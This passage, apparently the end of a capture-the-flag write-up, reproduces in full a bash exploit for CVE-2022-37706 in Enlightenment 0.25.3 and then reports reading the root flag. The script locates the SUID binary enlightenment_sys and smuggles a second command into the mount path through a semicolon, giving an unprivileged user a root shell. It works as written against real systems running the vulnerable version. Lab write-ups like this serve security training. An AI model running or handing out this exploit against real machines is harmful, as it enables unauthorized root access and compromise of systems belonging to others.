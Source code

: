 </p>


### Exploiting CVE-2022-37706 (Enlightenment)
The target system has an outdated Enlightenment version (0.25.3) with an SUID vulnerability. This [github script](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) exploits CVE-2022-37706 for root access:

```bash
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
    echo "[-] Couldn't find the vulnerable SUID file..."
    exit 1
fi

echo "[+] Vulnerable SUID binary found!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
Executing the script provides a root shell.
```

Now are root, and we can read the root flag.

Done!!